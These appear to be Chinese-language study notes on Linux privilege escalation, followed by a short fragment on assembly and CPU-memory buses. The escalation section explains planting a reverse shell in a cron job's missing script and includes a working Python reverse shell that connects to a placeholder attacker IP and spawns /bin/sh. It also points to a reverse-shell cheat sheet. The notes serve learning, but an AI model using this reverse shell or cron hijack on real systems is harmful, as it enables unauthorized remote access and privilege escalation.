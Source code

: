 #### 重要目录

1. `bin/sh`：运行这个文件，得到一个命令行

2. `/etc/crontab`：系统定期执行的任务，不同用户有各自定时任务（root权限编辑）
   
   > 编写反弹Shell，netcat监听获取对应用户权限
   
   1. 如果crontab设定的定时计划文件，在真实目录中不存在，则可以创建该文件，编辑反弹Shell代码，让主机自动定时执行，攻击机netcat监听端口，获得原定时任务对应用户身份的Shell
      
      ```python
      ——反弹Shell书写方式——
      # (书写环境变量)
      #!/usr/bin/python
      import os, subprocess, socket
      # (创建套接字，并使其连接攻击机监听的端口)
      s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
      s.connect(("attacker_ip", "attacket_listening_port"))
      # (将套接字传回的文件，文件描述符添加上0，1，2，服从标准输入输出与报错)
      # (Linux文件描述符：0为stdin，1为stdout，2为stderr)
      os.dup2(s.fileno(), 0)
      os.dup2(s.fileno(), 1)
      os.dup2(s.fileno(), 2)
      # (使用子进程调用交互模式的Shell，即执行成功返回结果，失败返回错误)
      p = subprocess.call(["/bin/sh", "-i"])
      ```
      
      其他语言可参考：[Pentest Monkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
   
   2. 如果crontab设定的定时执行文件存在，切换到对应目录，查看当前用户是否具有读写权限

3. `/etc/passwd`：用户列表

4. `/etc/group`：所有用户组

5. `/tmp`：残留缓存文件

#### 汇编

1. CPU对存储器的读写

   1. CPU与存储单元发生三类数据的交互
      
      1. 地址信息：存储单元的地址
      2. 控制信息：器件的选择，读写命令
      3. 数据信息：读写的数据内容

   2. CPU与内存（显卡内存，网卡内存，内存条等）间，有三簇总线相连
      
